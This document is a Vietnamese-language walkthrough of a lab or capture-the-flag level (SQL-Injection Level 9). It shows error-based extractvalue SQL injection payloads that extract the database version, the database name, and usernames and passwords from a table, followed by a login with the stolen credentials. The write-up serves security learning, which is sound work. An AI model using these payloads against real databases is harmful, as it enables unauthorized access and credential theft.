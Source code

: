 # <div align="center"><p> SQL-Injection/Level_9</p></div>
 ### MỤC LỤC
   [SQL-Injection](#gioithieu)
   
### Nội dung báo cáo 
#### SQL-Injection <a name="gioithieu"></a>
- B1: Đây là trang web của level9.

  ![image](https://user-images.githubusercontent.com/101852647/167064518-639d8742-a1ed-43b3-b8e9-b33a7a4d0616.png)

- B2: Thử chèn 1' thì thấy trang web trả về thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064630-128c830b-3f1b-4305-9890-3d270518710d.png)

- B3: Thử chèn `' union select 1,2#` vẫn thấy thông báo lỗi.

  ![image](https://user-images.githubusercontent.com/101852647/167064709-7c53bd83-c5c4-40d5-b845-911942202004.png)

- B4: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select version())) or ' ` để tìm phiên bản.

  ![image](https://user-images.githubusercontent.com/101852647/167064842-333002c9-e138-408a-a118-3f8fbcaa46cb.png)

- B5: Bây giờ chúng ta sẽ sử dụng câu lệnh `' or extractvalue(0x0a,concat(0x0a,(select database())) or ' ` để tìm tên database.

  ![image](https://user-images.githubusercontent.com/101852647/167064892-82f5ba2d-778d-4239-82c6-a3030a2d03ec.png)

- B6: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(username) from level9_users))) or '` để tìm username. Kết quả trả về cho chúng ta tên `username=TheBlueFlower`

  ![image](https://user-images.githubusercontent.com/101852647/167064943-b13a7c3f-9494-497a-b0af-ca65ad11f3fa.png)

- B7: Sử dụng câu lệnh ` ' or extractvalue(0x0a,concat(0x0a,(select group_concat(password) from level9_users))) or '` để tìm password.Kết quả trả về cho chúng ta `password= this_oassword_is_SEC//Ure.promised!`

  ![image](https://user-images.githubusercontent.com/101852647/167064977-534098ca-a66e-4bf4-a196-a0af2d990b00.png)

- B8: Thử đăng nhập `ussername=TheBlueFlower ` và `password=this_oassword_is_SEC//Ure.promised! ` và kết quả trả về đăng nhập thành công.

  ![image](https://user-images.githubusercontent.com/101852647/167065092-9e7c3671-40eb-427e-944b-3e704a8ecc9e.png)

